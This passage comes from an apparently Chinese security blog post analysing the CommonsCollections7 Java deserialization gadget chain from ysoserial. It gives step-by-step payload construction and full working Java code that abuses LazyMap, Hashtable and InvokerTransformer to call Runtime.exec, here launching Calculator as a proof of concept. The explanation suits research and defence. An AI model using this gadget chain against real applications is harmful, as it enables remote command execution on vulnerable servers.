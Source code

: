 最好在hashtable put前把transformerChain 设成空，这样不会提前执行命令执行链。

### <a class="reference-link" name="0x4%20payload%E7%BC%96%E5%86%99"></a>0x4 payload编写

虽然原理解释了半天，但是在payload编写方面还是挺好写的，主要步骤如下：
1. 创建两个hashmap和两个Lazymap
1. 向lazymap中填充以yy和zZ为key的两个键值对
1. 将两个lazymap put进创建的hashtable中
1. 修改transformerChain的iTransformers属性为命令执行链
1. 删除lazyMap2中多余的key
```
public static void main(String[] args) throws Exception`{`
        Transformer[] transformers = new Transformer[] `{`
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] `{`String.class, Class[].class `}`, new Object[] `{`"getRuntime", new Class[0] `}`),
                new InvokerTransformer("invoke", new Class[] `{`Object.class, Object[].class `}`, new Object[] `{`null, new Object[0] `}`),
                new InvokerTransformer("exec", new Class[] `{`String.class `}`, new Object[] `{`"/System/Applications/Calculator.app/Contents/MacOS/Calculator"`}`)
        `}`;
        Transformer transformerChain = new ChainedTransformer(new Transformer[] `{``}`);
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 1);
        Class tr = transformerChain.getClass();
        Field field = tr.getDeclaredField("iTransformers");
        field.setAccessible(true);
        final Object value = transformers;
        final Object chain = transformerChain;
        field.set(chain,value);
        lazyMap2.remove("yy");
        byte[] serializeData=serialize(hashtable);
        unserialize(serializeData);
    `}`
```

完整代码在<br>[https://github.com/BabyTeam1024/ysoserial_analyse/blob/main/cc7.java](https://github.com/BabyTeam1024/ysoserial_analyse/blob/main/cc7.java)

### <a class="reference-link" name="0x5%20%E6%80%BB%E7%BB%93"></a>0x5 总结

完美利用了hashtable反序列化时会触发元素比较，巧的是lazymap的equals方法是继承父类方法，父类做的操作是用lazymap的innermap进行对比，刚好innermap是hashmap，hashmap的equals方法时继承AbstractMap类，其中有个获取equals方法参数的key，及m.get(key)，
